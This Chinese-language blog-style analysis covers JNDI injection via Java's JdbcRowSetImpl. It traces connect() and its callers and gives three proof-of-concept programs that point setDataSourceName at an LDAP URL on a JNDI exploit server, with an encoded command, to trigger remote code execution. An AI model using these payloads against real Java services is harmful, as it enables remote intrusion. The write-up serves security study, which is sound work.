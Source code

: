 很讨厌，不知道网上那么多帖子都是从哪抄来的，一提到`JdbcRowSetImpl`都是在说这个在fastJson中的利用，但是这个类的攻击明明就是自成体系的，他本质上就是JNDI的攻击利用啊，而且这个类的全路径是`com.sun.rowset.JdbcRowSetImpl`，这和fastJson有什么关系？？？

`com.sun.rowset.JdbcRowSetImpl` 本质上是 Java 标准库中的一个类，用于基于 JDBC 的数据库交互。其设计允许通过配置数据源（如 JNDI URI）来访问远程资源。只是恰好fastJson的攻击也能使用`com.sun.rowset.JdbcRowSetImpl`来触发而已。

## 环境准备

JDK版本<=6u211、7u201、8u191即可

## 代码分析

在`com.sun.rowset.JdbcRowSetImpl`中有一个关键方法叫做`connect()`，代码如下：

### JdbcRowSetImpl#connect

```java
private Connection connect() throws SQLException {
    // 当数据库连接不为空时，直接返回数据库连接
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        // 当数据库连接为空，并且dataSourceName不为空
        // dataSourceName 的设计初衷是用来指定数据库的数据源名称，通常是一个合法的 JNDI 数据源名称，用于连接数据库。它在 JdbcRowSetImpl 中的主要作用是配置数据源，通过 JNDI 查找数据库连接配置。
        try {
            // 这里的InitialContext就是JNDI的那个上下文对象
            InitialContext var1 = new InitialContext();
            // 这里就回到JNDI相关的知识点了，通过lookup来获取JNDI对象的配置项
            // 但如果this.getDataSourceName()是一个恶意构造的ldap://ip:port/evilClass
            // 那么就会导致lookup过来的其实是一个恶意类，从而导致恶意代码执行
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
            return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
        } catch (NamingException var3) {
            throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
        }
    } else {
        return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
    }
}
```

非常清晰了已经，就是如果这个`dataSourceName`参数是我们可控的，那么我们直接通过调用`connect()`就能达到加载恶意代码的效果。

嗯......其实我应该这么说，关键代码只有这一处地方。主要就是看还有哪些地方会触发这个`connect()`方法。

通过IDEA在`JdbcRowSetImpl`类中进行搜索，可以发现这么三个地方调用了`connect`方法

![image-20250112124655100](./main.assets/image-20250112124655100.png)

### getDatabaseMetaData

代码如下：

```java
public DatabaseMetaData getDatabaseMetaData() throws SQLException {
    // 非常干净的调用了connect()方法
    Connection var1 = this.connect();
    return var1.getMetaData();
}
```

如果我们能提前控制`dataSourceName`，然后调用这个`getDatabaseMetaData`方法，即可恶意代码执行。

### setAutoCommit

代码如下：

```java
public void setAutoCommit(boolean var1) throws SQLException {
    if (this.conn != null) {
        this.conn.setAutoCommit(var1);
    } else {
        // 如果当前链接为空就会调用connect()方法
        // 所以在这里你能看出来，传什么值都不要紧
        // 这里都是可以触发connect()方法的，当然前提是conn为null
        this.conn = this.connect();
        this.conn.setAutoCommit(var1);
    }

}
```

很多fastJson的很多利用方法，就是使用的触发setAutoCommit方法来执行恶意代码。

### prepare

这个方法有点特别，这是一个用`protected`关键字修饰的方法，这意味着我们没办法直接调用到这个方法，只能通过反射或者间接的方法调用，其实这里刚好有一个方法调用了prepare方法，就是execute()方法，代码如下：

```java
public void execute() throws SQLException {
    // 一上来就调用了我们想要的方法
    this.prepare();
    this.setProperties(this.ps);
    this.decodeParams(this.getParams(), this.ps);
    this.rs = this.ps.executeQuery();
    this.notifyRowSetChanged();
}
```

amazing！是不是这几个类都非常简单！调用过程其实都非常简单。

## 漏洞利用 - POC

这里推荐大家可以先看我分析过的一个`JNDI-Injection-Exploit`工具，这个东西是一个JNDI注入攻击利用的一个小工具，参考我的这篇文章：[JNDIExploit攻击工具分析](../JNDI-Exploit分析/main.md)，在本地启动启动这个工具，然后即可运行下边的POC。

你要记得对于`JdbcRowSetImpl`的利用，重点是需要`dataSourceName`参数是可控的。

### getDatabaseMetaData

```java
import com.sun.rowset.JdbcRowSetImpl;

public class Demo {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rsi = new JdbcRowSetImpl();
        rsi.setDataSourceName("ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=");
        // 执行getDatabaseMetaData方法即可调用到connect()方法，从而加载恶意代码
        rsi.getDatabaseMetaData();
    }
}
```

![image-20250112131119833](./main.assets/image-20250112131119833.png)

### setAutoCommit

```java
import com.sun.rowset.JdbcRowSetImpl;

public class Demo1 {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rsi = new JdbcRowSetImpl();
        rsi.setDataSourceName("ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=");
        // 也可以写成tpl.setAutoCommit(false);
        // 传什么值不要紧，true或者是false都是可以触发connect()方法
        rsi.setAutoCommit(false);
    }
}

```

![image-20250112131152519](./main.assets/image-20250112131152519.png)

### poc3 - prepare

```java
import com.sun.rowset.JdbcRowSetImpl;

public class Demo2 {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rsi = new JdbcRowSetImpl();
        rsi.setDataSourceName("ldap://127.0.0.1:1389/Basic/Command/Base64/Y21kIC9jIGNhbGM=");
        rsi.execute();
    }
}
```

![image-20250112131212111](./main.assets/image-20250112131212111.png)